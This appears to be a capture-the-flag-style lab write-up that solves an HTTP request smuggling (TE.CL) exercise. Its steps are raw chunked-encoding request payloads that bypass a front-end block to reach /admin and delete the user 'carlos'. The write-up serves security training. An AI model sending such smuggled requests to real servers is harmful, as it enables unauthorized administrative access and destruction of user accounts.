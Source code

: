 # Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

## This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.

## To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`.

---

### step 1

```
Transfer-Encoding: chunked

5a
GET / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

you will get response 200 ok

### step2

```
Transfer-Encoding: chunked

67
GET /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![screenshot](images/images_lab7/lab7_blog_post_id_5.jpg)

### step3

```
Transfer-Encoding: chunked

5f
GET /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![screenshot](images/images_lab7/lab7_try_to_access_admin_interface.jpg)

### step5

```
Content-Length: 4
Transfer-Encoding: chunked

70
GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

![screenshot](images/images_lab7/lab7_admin-panel.jpg)

### step6

```
Content-Length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

![screenshot](images/images_lab7/lab7_delete_carlos_account.jpg)

![screenshot](images/images_lab7/lab7_lab_solved.jpg)
